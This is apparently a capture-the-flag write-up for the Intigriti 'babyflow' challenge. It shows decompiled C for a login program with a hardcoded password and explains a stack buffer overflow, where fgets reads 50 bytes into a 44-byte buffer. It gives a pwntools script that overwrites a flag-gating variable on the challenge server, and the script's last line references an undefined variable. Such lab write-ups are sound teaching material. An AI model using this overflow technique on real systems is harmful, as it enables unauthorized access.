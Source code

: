 # Description
Does this login application even work?!  

`nc babyflow.ctf.intigriti.io 1331`

# Flag
INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}

# Analysis
From the source code that is provided we can see it is a normal login application, the password is hardcoded into the source code as well which is "SuPeRsEcUrEPaSsWoRd123". However, the program is not entirely a normal login application because it runs a check to see if the value of "v5" is 0 or 1 in which case it will or will not print the flag.
```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[44]; // [rsp+0h] [rbp-30h] BYREF
  int v5; // [rsp+2Ch] [rbp-4h]

  v5 = 0;
  printf("Enter password: ");
  fgets(s, 50, _bss_start);
  if ( !strncmp(s, "SuPeRsEcUrEPaSsWoRd123", 0x16uLL) )
  {
    puts("Correct Password!");
    if ( v5 )
      puts("INTIGRITI{the_flag_is_different_on_remote}");
    else
      puts("Are you sure you are admin? o.O");
    return 0;
  }
  else
  {
    puts("Incorrect Password!");
    return 0;
  }
}
```

![image](https://github.com/user-attachments/assets/7e508e7f-1296-4709-b391-a99e26852706)

If you attempt to login with just the password this is the result you will receive above.

From the source code we can deduce that the array for the input can only take in 44 characters but the fgets function is taking in 50. Hence this is our injection point and we can take advantage of this buffer overflow to overwrite the value of v5.
# Solution
So for the solution we need to pass the check for the correct password and overwrite the value of v5. To do this I used the script below:
```
from pwn import *

# Set the target binary and address to use the buffer overflow
# (Assuming you're running this locally or through a remote server)
p = remote('babyflow.ctf.intigriti.io', 1331)  # Replace with actual binary path if needed

# Craft the payload:
# Password + padding to fill buffer + overwrite v5 with 1
password = b"SuPeRsEcUrEPaSsWoRd123"
padding = b"A" * (44 - len(password))  # 'A' * 44 to fill the buffer, p32(1) to set v5 to 1
v5_overwrite = p32(1) 

payload = password + padding + v5_overwrite

# Wait to receive this line from server then only sending the payload
p.recvuntil("Enter password: ")

# Send the payload to the server
p.sendline(payload)

p.interactive()

# Capture and print the output to see the result
print(target.recvall().decode())

```

#L337upCTF2024
